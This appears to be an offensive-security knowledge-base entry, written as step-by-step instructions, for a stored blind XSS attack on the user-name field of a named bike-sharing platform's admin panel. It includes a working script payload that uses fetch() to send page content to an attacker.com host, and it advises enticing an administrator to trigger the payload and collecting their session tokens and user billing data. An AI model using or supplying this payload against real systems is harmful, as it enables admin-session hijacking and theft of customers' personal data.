

---
tags:
  - xss
  - stored-xss
  - blind-xss
  - web-vulnerability
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
commands: []
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Inject-XSS-Payload-into-User-Name-Field]]'
  - '[[procedures/Trigger-XSS-Execution-in-Admin-Panel]]'
step_count: 2
techniques:
  - '[[JavaScript]]'
updated_at: '2025-12-13T23:52:49.228Z'
description: >-
  A multi-step attack exploiting a stored blind XSS vulnerability in the user
  name field of the Jump bikes platform to compromise the admin panel and expose
  sensitive user data.
skill_level: intermediate
impact_level: high
id: 400466d4-e636-4c99-9a04-96cfb9711904
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
---
# Stored Blind XSS in User Name Field Leading to Admin Panel Compromise

Multi-stage attack chain demonstrating a complete attack workflow exploiting a stored blind XSS in the Jump bikes user profile to compromise the admin panel.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome with developer tools)
- Attacker-controlled server for payload callback (e.g., ngrok for tunneling)

### Target Environment

- Jump bikes platform (manage.jumpbikes.com)
- Web application with user profile editing
- Admin panel accessible to administrators

### Initial Access Requirements

- Valid user account on Jump bikes platform
- No special privileges required for injection
- Network access to the platform

## Detailed Attack Procedures

### Step 1: Inject XSS Payload
procedure: [[procedures/Inject-XSS-Payload-into-User-Name-Field]]

**Objective**: Store a malicious JavaScript payload in the user name field to be rendered unsafely in the admin panel.

**Instructions**: Log in to your Jump bikes account, navigate to the profile settings, and modify the user name field to include the XSS payload. Use a payload that exfiltrates sensitive data upon execution, such as:

```html
<script>fetch('http://attacker.com/steal?data=' + btoa(document.body.innerHTML));</script>
```

Submit the form to store the payload. No command-line tools are needed; this is done via the web interface.

**Expected Output**: Profile updated successfully without errors, payload stored blindly.

**Success Indicators**:
- Profile saves without validation errors
- No immediate execution (blind nature)

### Step 2: Trigger XSS Execution
procedure: [[procedures/Trigger-XSS-Execution-in-Admin-Panel]]

**Objective**: Cause an administrator to view the admin panel, executing the payload and compromising their session to access user data.

**Instructions**: Notify or entice an admin to access the admin panel at manage.jumpbikes.com where user profiles are listed. The payload executes automatically when the admin views the compromised user name. Monitor your attacker server for incoming requests containing exfiltrated data like session cookies or page content.

**Expected Output**: Incoming HTTP request to attacker server with stolen data (e.g., admin session token or user details).

**Success Indicators**:
- Payload execution confirmed via callback
- Access to sensitive data such as user activity, personal info, and billing details

## Attack Chain Summary

### Key Achievements

1. Successful storage of blind XSS payload in user name field
2. Execution of JavaScript in admin context upon panel access
3. Full compromise of admin panel with exposure of user PII and billing information

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
